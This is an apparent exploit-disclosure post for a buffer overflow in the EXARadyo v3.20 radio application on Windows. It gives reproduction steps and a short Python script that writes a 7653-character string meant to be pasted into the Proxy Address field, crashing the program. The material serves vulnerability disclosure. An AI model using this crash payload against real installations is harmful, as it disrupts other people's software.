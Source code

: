 ```yaml
---
layout: post
title: EXARadyo v3.20 - Buffer Overflow (PoC)
date: 2023-09-13
category: exploit
---
```


# Exploit Title: EXARadyo v3.20 - Buffer Overflow (PoC)
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 13.09.2023
# Vendor Homepage: http://radyo.terkon.com
# Software Link: https://download.terkon.com/exaradyo.exe
# Tested Version: v3.20 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open the EXARadyo application.
2. Click on **Settings** from the hamburger menu.
3. Paste the content of `poc.txt` into the **Proxy Address** box.
4. Go to the **Favorite List** tab and double-click on any station.
5. The application should crash due to a buffer overflow.

### Proof of Concept (PoC)

The following script generates a `poc.txt` file with a payload that, when loaded into the **Proxy Address** field, causes the application to crash.

```python
#!/usr/bin/python

poc = 'A' * 7653

try:
    file = open("poc.txt", "w")
    file.write(poc)
    file.close()
    print("POC is created")
except Exception as e:
    print("POC is not created:", e)
